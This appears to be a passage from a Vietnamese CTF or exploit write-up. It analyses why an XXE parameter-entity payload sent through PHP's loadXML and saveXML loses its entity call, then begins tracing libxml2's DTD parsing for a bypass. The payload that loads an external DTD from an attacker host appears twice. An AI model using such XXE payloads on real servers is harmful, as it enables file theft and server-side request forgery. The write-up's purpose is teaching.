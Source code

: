 #### 3. Bypass `loadXML($_POST['user_input'])`
##### 🧠 Vấn đề gốc: tại sao payload XXE không hoạt động?
Ví dụ:
```xml
<!DOCTYPE x [
  <!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">
  %xxe;
]>
<x></x>
```
Khi qua dòng `$doc->loadXML($payload);` PHP KHÔNG thực thi dòng `%xxe;` ngay lập tức, vì:
- Không bật `LIBXML_DTDLOAD` nên DTD không được load
- Không bật `LIBXML_NOENT` nên ENTITY không được resolve
- Và đặc biệt khi  gọi `saveXML()` sau đó → PHP chỉ lưu phần DTD chính thức thôi, còn phần nội dung như `%xxe;` (ENTITY sử dụng) thì bị lược bỏ.

Cụ thể khi chạy:
```php
$payload = '<!DOCTYPE x [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">%xxe;]><x></x>';

$doc->loadXML($payload);
$xml = $doc->saveXML();
```
`$xml` chỉ còn:
```xml
<!DOCTYPE x [
  <!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">
]>
<x></x>
```
Dòng `&xxe;` đã bị mất → Không có gì gọi external DTD → payload fail

##### ✅ Giải pháp
Phân tích cách `libxml2` xử lý khai báo DTD:
```C
// parserInternals.c

int
xmlParseDocument(xmlParserCtxtPtr ctxt) {
    ...
    if (CMP9(CUR_PTR, '<', '!', 'D', 'O', 'C', 'T', 'Y', 'P', 'E')) {
	    ctxt->inSubset = 1;
	    xmlParseDocTypeDecl(ctxt);
        ...
        if ((ctxt->sax != NULL) && (ctxt->sax->externalSubset != NULL) &&
	        (!ctxt->disableSAX))
	        ctxt->sax->externalSubset(ctxt->userData, ctxt->intSubName,
	                                  ctxt->extSubSystem, ctxt->extSubURI);

        }
    ...

void
xmlParseDocTypeDecl(xmlParserCtxtPtr ctxt) {
    ...
    URI = xmlParseExternalID(ctxt, &ExternalID, 1); 
    ...
    ctxt->extSubURI = URI;
    ctxt->extSubSystem = ExternalID;
    ...
}   
```
Khi parser đọc đến dòng bắt đầu bằng `<!DOCTYPE`, nó gọi hàm `xmlParseDocTypeDecl()` để xử lý phần khai báo DTD.
